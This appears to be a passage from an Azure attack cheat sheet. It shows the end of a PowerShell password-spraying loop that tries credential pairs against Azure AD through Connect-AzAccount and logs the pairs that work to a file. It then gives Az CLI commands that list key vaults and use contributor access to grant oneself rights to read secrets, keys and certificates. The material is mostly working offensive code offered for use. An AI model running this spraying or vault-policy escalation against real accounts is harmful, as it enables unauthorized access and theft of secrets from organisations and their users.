 ```powershell
    $Cred = New-Object System.Management.Automation.PSCredential ($user, $pass)

    try
    {
        Connect-AzAccount -Credential $Cred -ErrorAction Stop -WarningAction SilentlyContinue
        Add-Content valid-creds.txt ($user + "|" + $passlist[$linenumber - 1])
        Write-Host -ForegroundColor green ("`nGot something here: $user and " + $passlist[$linenumber - 1] )
    }
    catch
    {
        $Failure = $_.Exception
        if ($Failure -match "ID3242")
        {     
            continue
        }
        else
        {
            Write-Host -ForegroundColor green ("`nGot something here: $user and " + $passlist[$linenumber - 1] )
            Add-Content valid-creds.txt ($user + "|" + $passlist[$linenumber - 1])
            Add-Content valid-creds.txt $Failure.Message
            Write-Host -ForegroundColor red $Failure.Message
        }
    }
    
}
```

### Az CLI Tool

#### Authentication

```bash
az login
```

Login to the account without subscription access

```bash
az login --allow-no-subscriptions
```

#### Dump Azure Key Vaults

List out any key vault resources the current account can view 

```bash
az keyvault list –query '[].name' --output tsv 
```

With contributor level access you can give yourself the right permissions to obtain secrets. 

```bash
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list 
```

